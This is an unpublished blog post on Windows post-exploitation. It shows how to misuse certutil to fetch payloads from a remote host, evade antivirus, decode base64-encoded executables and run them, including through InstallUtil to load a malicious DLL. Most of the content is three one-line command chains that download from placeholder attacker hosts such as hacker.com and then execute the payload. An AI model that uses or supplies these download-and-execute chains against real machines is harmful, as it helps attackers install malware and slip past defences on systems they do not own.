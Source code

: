 ```yaml
---
layout: post
published: false
title: Windows Post Exploitation 12.2
---
```

## Windows Manual Escalation

## Introduction

In this blog post we will discusse some manual techniques to escalate privileges according to get standard privilege in target network.


**Windows File Transfer utilities**

We will discuss some utilities to downlaod remote payloads and execute them in order to perform malicious action, in target system.


**Certutil**

Certutil is a CLI program that can be used to dump and display certificate authority (CA), configuration information, configures Certificate Services, backup and restore CA components, and verify certificates, key pairs, and certificate chains. It is installed as a part of Certificate Services.

How can we use it to download malicious files and evade antivirus in target system

Simple command to download malicious files and payloads from remote server.

**You can create payloads using msfvenom, veil, evilgrade or other tools**

```
certutil -urlcache -split -f http://hacker.com/malicious.exe malicious.exe
```
-URLCache: To display or delete URL cache entries

-split: To split embedded ASN.1 element & Save to files

-f: Force Overwrite



To download encrypted payload from remote server in target and executing it as .exe.
~~~
certutil -urlcache -split -f http://webserver/malicious.b64 malicious.b64 & certutil -decode malicious.b64 malicious.exe & malicious.exe
~~~

Download encoded payload, decoding it and combining some commands in one line, with the InstallUtil.exe executing a specific DLL as a payload.

```
certutil -urlcache -split -f http://hacker/malicious.b64 malicious.b64 & certutil -decode malicious.b64 malicious.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u malicious.dll
```
